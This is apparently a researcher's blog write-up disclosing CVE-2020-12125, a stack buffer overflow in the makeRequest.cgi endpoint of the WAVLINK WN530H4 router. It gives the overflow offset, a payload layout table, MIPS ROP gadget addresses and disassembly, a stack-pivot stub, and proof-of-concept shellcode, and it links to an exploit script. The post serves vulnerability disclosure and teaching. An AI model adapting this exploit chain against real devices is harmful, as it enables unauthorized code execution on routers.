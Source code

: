 ```yaml
---
year: 2020
cveid: CVE-2020-12125
title: CVE-2020-12125
product: "WAVLINK WN530H4"
vulnerability: "Buffer Overflow"
publish: true
category: bugs
layout: bug-report
---
```


This vulnerability is a Buffer Overflow vulnerability in the WAVLINK WN530H4 router.

There is a buffer overflow vulnerability in <kbd>/cgi-bin/makeRequest.cgi</kbd>. The overflow occurs in the main function, where it reads the <kbd>CONTENT_LENGTH</kbd> environmental variable that comes from a POST request in the browser. There is an <kbd>fgets</kbd> call at <kbd>0x406888</kbd> that reads an arbitrarily long string of size <kbd>CONTENT_LENGTH</kbd> into a fixed buffer on the stack of size 512.

We can replicate this bug in GDB for testing purposes. As seen, the instruction pointer on the stack is overwritten with a series of "A" characters (ascii <kbd>0x41</kbd>) and the CPU attempts to jump to this address after popping it off the stack.

![Overrun Buffer]({{"/assets/img/posts/2020-05-01-CVE-2020-12125-img-1.png" | relative_url}})

Armed with this knowledge, we can formulate our payload. Because ASLR is enabled for libraries and for the stack, we must utilize ROP to jump to our payload. Fortunately for us, DEP is not enabled, making the stack executable.

Return Oriented Programming (ROP) is a technique in which addresses in the program’s instruction memory are utilized to perform an attack. This is useful for when ASLR only randomizes stack space and not instruction space, like in this case. ROP is generally more useful with larger binaries, which is the case for the makeRequest.cgi binary.

In this case, we will use ROP to jump to the stack. To do this, we need to find special sections of code, called “gadgets” that perform useful tasks. I am trying to find a sequence of gadgets that allow us to jump to a particular stack location. Fortunately, I found a sequence of gadgets that increment the stack pointer, and then jump to a location on the stack that we control.

To craft this attack, we must place addresses on the stack in specific locations. Fortunately, we can predict what the stack will look like. We know that 564 characters can overflow the buffer before the first return pointer is overwritten. Additionally, the stack pointer will point to the first four bytes after the return address is overwritten. Essentially, we will have to craft an attack that looks like the table below.

Please note that this payload is sloppy, doesn't land 100% of the time, and can certainly be improved. This is mainly for proof of concept demonstration.

| Location         | Size        | Description                      | Data                       |
|------------------|-------------|----------------------------------|----------------------------|
| 0                | 0x11A bytes | Payload                          | ...                        |
| 0x11A            | 0x11A bytes | Data and padding                 | hacked\x0a                 |
| 0x234            | 0x04 bytes  | The address of the first gadget  | 0x4050d8                   |
| 0x238 ($sp)      | 0x94 bytes  | Aligning the next address        | “A”*0x94                   |
| 0x2CC ($sp+0x94) | 0x04 bytes  | The address of the second gadget | 0x40214c                   |
| 0x2D0 ($sp+0x98) | 0x20 bytes  | Aligning the next address        | “A”*0x20                   |
| 0x2F0 ($sp+0xB8) | 0x18 bytes  | We can only run 6 instructions.  | ...                        |
| 0x308 ($sp+0xD0) | 0x04 bytes  | The stack address to jump to     | (predetermined at runtime) |

As noted in the table, there are two ROP gadgets. The first is at address <kbd>0x4050d8</kbd> and the second is at <kbd>0x40214c</kbd>

First gadget at <kbd>0x4050d8</kbd>

<pre>
<code>lw      $ra, 0x94($sp)
lw      $s2, 0x90($sp)
lw      $s1, 0x8C($sp)
lw      $s0, 0x88($sp)
jr      $ra
addiu   $sp, $sp, 0x98</code>
</pre>

Second gadget at <kbd>0x40214c</kbd>

<pre>
<code>lw      $ra, 0x38($sp)
lw      $s3, 0x34($sp)
lw      $s2, 0x30($sp)
lw      $s1, 0x2C($sp)
lw      $s0, 0x28($sp)
jr      $ra
addiu   $sp, $sp, 0x40</code>
</pre>

Next, we have to come up with an adequate payload. At <kbd>0x2F0</kbd>, we will construct a payload that jumps to a bigger area on the stack that we control, shown below.

<pre>
<code>addiu   $ra,$ra,-752
jr      $ra</code>
</pre>

At this point, the CPU jumped to the location of our real payload. The attack payload simply writes 7 bytes <kbd>hacked\a</kbd> to standard out (fd 1). It additionally allows for up to 1000 bytes to be written to standard out, allowing the attacker to increase their payload size. The code for this attack is seen below.

<pre>
<code>addiu   $sp, $ra, 0x11A
li      $v0, 4004
li      $a0, 1
move    $a1, $sp
li      $a2, 1000
syscall                 ; write(1, $sp, 1000)
nop
nop
li      $v0, 4001
xor     $a0, $a0, $a0
syscall                 ; exit(0)
nop
nop</code>
</pre>

After compiling the payload, we can submit it as data to the web-server under the <kbd>makeRequest.cgi</kbd> endpoint. Unfortunately, the code does not execute with certainty 100% of the time. I believe this is due to the stack address that the program attempts to jump to; it may not be completely deterministic. However, we can execute the payload more than once if we encapsulate it in a script.

Below we show the attack in action. Of course, a nefarious user could change the shellcode to be even worse.

![Attack]({{"/assets/img/posts/2020-05-01-CVE-2020-12125-img-2.png" | relative_url}})

The final script is located on my [GitHub](https://github.com/cernec1999/WAVLINK-Exploits/blob/master/overflow.py).

For more information and vulnerability analysis, please see [my report on the WAVLINK WN530H4]({{"/assets/reports/report_wavlink.pdf" | relative_url}}).
